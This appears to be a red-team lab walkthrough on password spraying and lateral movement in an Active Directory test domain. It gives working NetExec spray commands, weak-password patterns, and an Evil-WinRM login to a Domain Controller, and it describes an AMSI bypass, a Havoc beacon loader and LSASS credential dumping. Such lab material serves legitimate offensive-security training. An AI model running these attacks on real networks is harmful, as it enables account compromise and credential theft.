# 5 - Lateral Movement

# Password Spray & Weak Credential Exploitation

Password spraying is a low-noise, high-success technique that tests one password across many users, often exploiting common patterns and weak password policies.

## Usernames list
- Usernames were extracted based on Havoc's BOF `domainenum` and have been saved for convenience at:
```
/home/kali/password_spray/usernames.txt
```

![image](https://github.com/user-attachments/assets/deeff09c-1623-4639-9b0e-6dfb33bff1ee)


## Password Policy
Before performing any password spray, it's critical to understand the domain's account lockout policy. Spraying without this knowledge can trigger 
- Account lockouts
- User complaints
- Blue team alerts
- Immediate detection of your presence

The Havoc's BOF `dcenum`, which we already used on basic enumeration, can help us to check the Domain Password Policy:

![image](https://github.com/user-attachments/assets/f52a30cd-5351-4db4-8127-5154f088b5c3)


# Common Password Patterns
Many users follow predictable patterns when creating passwords. Some of the most abusable formats include:
- 📆 MonthYear → March2024
- 🌤 SeasonYear → Summer2025!
- 📅 DayDate → Tuesday23!
- 💀 Leetspeak → L@bl0cal, P@ssw0rd123, Adm1n!2024

These are often overlooked by defenders but easily guessed by attackers.

- A password list `passwords.txt` with weak/common credentials was previously created and located at:
```
/home/kali/password_spray/passwords.txt
```

## Netexec 1 - One Password for All Users
Run a password spray using NetExec:
```bash
cd ~/password_spray/
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'L@bl0cal' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log one_for_all
```
> - Sweeps across the subnet using one weak password
> - Identifies any accounts that reused `L@bl0cal`
> - Ideal first strike — low risk of lockout

![image](https://github.com/user-attachments/assets/dc1f1de3-db2e-4ec0-a77a-8dec589ae5af)


## Netexec 2 - Matching username = password
Run a password spray using NetExec:
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'usernames.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log password_equal_username
```
> - Tests each user with their own username as password
> - Example: jdoe:jdoe, admin:admin
> - Simple, effective, and surprisingly successful in many orgs

![image](https://github.com/user-attachments/assets/4d53a9b8-561d-40ef-ad1e-d9efa8b0e0e2)


## Netexec 3 - Full Spray with Password List
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'passwords.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log pass_sweep
```
> - Tests each password in the list against every user
> - Be cautious of account lockout policies: `try to space attempts over time`

![image](https://github.com/user-attachments/assets/591afcfd-b95d-4e36-b7ea-76e538b39646)


Once done, you can confirm the results using `cat` and `grep` commands:
```bash
cat pass_sweep | grep Pwn3d!
```

![image](https://github.com/user-attachments/assets/07e8b1b2-0e0b-412d-aa21-d1e12f0aa8fe)

## Remote Shell via Evil-WinRM
For targets with `WinRM` enabled do:
```
evil-winrm -i 10.10.X.10 -u svc_exchange  -p 1q2w3e4r
```

Executing the command above, we gain shell access on the Domain Controller with a Full PowerShell session (high-integrity context).

Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) we can do:
- File upload/download
- Script execution
- Live command interaction

![image](https://github.com/user-attachments/assets/0fccb518-c85f-47a9-997c-49f8324487a1)


Let's deploy an elevated Havoc beacon on the Domain Controller server:
1. Execute the AMSI bypass script line-by-line
2. Deploy our obfuscated `.ps1` loader

This gave us a new high-privileged Beacon on the most critical asset in the network.

> - With a fully elevated Beacon now running on the Domain Controller, we gain access to native post-exploitation modules within Havoc, including BOFs like `nanodump`.  
> - Nanodump is a Beacon Object File that functions similarly to Mimikatz: it dumps the LSASS memory safely and stealthily, allowing credential extraction without touching the disk.  
> - However, since we've already performed a full `NTDS.dit` hash dump using Impacket's `secretsdump.py`, dumping LSASS again would be redundant.  

Still, it's important to note that `nanodump` works reliably from an elevated Beacon, and in scenarios without cert access or full hash dumps, it would be a powerful alternative to extract credentials in-memory.



